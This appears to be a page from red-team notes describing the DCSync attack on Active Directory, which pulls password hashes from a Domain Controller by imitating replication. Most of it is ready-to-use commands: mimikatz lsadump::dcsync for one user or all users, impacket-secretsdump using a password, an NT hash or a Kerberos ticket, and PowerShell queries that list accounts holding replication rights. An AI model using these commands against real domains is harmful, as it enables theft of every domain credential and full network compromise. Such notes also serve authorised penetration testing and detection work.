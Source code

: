 ```yaml
---
label: DCSync
---
```


# Credentials dump using DCSync attack

> **Requirements**:
>
> * Current user needs _DCSync_  permissions (see below) on a Domain Object granted. _Domain Admins_, _Enterprise Admins_, _Administrators_ and _Domain Controllers_ groups have the required permissions by default.
> * Access to LDAP service on DC.

A DCSync attack exploits a legitimate function of Active Directory to steal password data from Domain Controller database. The DCSync simulates the behavior of a Domain Controller and asks other DC to replicate information using the _Directory Replication Service Remote Protocol_ (MS-DRSR) and its _GetNCChanges_ function. In response a DC returns the replication data that includes password hashes. Most often, the place from which DCSync is executed is not restricted, so you just need to have the right user.

Required DCSync permissions on the Domain Object:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes In Filtered Set

Windows:

> **WARNING**: It assumes that you are the user who has DCSync permissions and you have valid TGT or TGS for DC LDAP service in memory. It might be required to _become someone else_ (e.g. domain admin) using Delegation Abuse, [Pass-the-Ticket](/windows-lateral-movement/pass-the-ticket) or [RunAs](/windows-lateral-movement/access-token-manipulation) techniques.

```powershell
.\mimikatz.exe

# Get a single domain user password hash
> lsadump::dcsync /domain:$domain /user:$user

# Get all domain users password hashes
> lsadump::dcsync /domain:$domain /all
```

Linux:

```bash
# DCSync using password
impacket-secretsdump -just-dc $domain/$user:$pass@$dc_ip

# DCSync using NT hash
impacket-secretsdump -hashes :$nt_hash -just-dc $domain/$user@$host

# DCSync using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-secretsdump $hostname -k -no-pass -dc-ip $dc_ip -just-dc
```

## Enumerate users or groups with DCSync permissions

Active Directory module:

```powershell
(Get-Acl "ad:\dc=$domain_p2,dc=$domain_p1").Access | ? {($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) } | select IdentityReference
```

PowerView module:

```powershell
Get-ObjectACL "DC=$domain_p2,DC=$domain_p1" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | select SecurityIdentifier,@{n="Identity";e={Convert-SidToName $_.SecurityIdentifier}} 
```

## References

* [Red Team Notes 2.0, _DCSync_](https://dmcxblue.gitbook.io/red-team-notes-2-0/active-directory/active-directory-attacks/dcsync)
* [Altered Security, _A primer on DCSync attack and detection_](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
